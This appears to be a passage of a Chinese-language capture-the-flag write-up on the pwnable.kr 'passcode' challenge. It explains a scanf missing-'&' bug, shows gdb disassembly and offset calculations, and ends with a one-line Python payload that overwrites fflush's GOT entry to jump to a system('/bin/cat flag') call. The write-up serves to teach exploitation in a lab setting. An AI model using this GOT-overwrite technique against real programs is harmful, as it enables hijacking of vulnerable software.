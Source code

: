   

### 题目解析

  

login函数中的两个scanf的参数没有加&，但是scanf依然会把passcode1和passcode2当成指针来存储数据，也就是说此时输入的数据应该在passcode1和passcode2中的值所指向的地址里面。

  

如果将passcode1或passcode2里面的值覆盖为某个函数的地址，构造好栈的布局，参数为`system("/bin/cat flag")`的地址，那么scanf就会将`system("/bin/cat flag")`的地址覆盖到原本的函数地址上去，然后得到flag。

  

接下来就需要计算name到passcode的长度

  

gdb反汇编分析，只看关键部分

  

  welcome:
   0x0804862f <+38>:    lea    -0x70(%ebp),%edx	;name的地址
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>

  

  login:
  passcode1:
   0x0804857c <+24>:    mov    -0x10(%ebp),%edx	;passcode1的地址
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
  passcode2:
   0x080485aa <+70>:    mov    -0xc(%ebp),%edx	;passcode2的地址
   0x080485ad <+73>:    mov    %edx,0x4(%esp)
   0x080485b1 <+77>:    mov    %eax,(%esp)
   0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>
  system_getflag:
   0x080485e3 <+127>:   movl   $0x80487af,(%esp)
   0x080485ea <+134>:   call   0x8048460 <system@plt>

  

通过计算可知，name到passcode1的长度为96字节，name的长度为100，刚好可以溢出覆盖passcode1。

  

接着查看plt表，因为只够覆盖到passcode1，所以选择fflush函数

  

**payload**

  

python -c "print 'A' * 96 + '\x00\xa0\x04\x08' + '134514147\n'" | ./passcode

  

## random
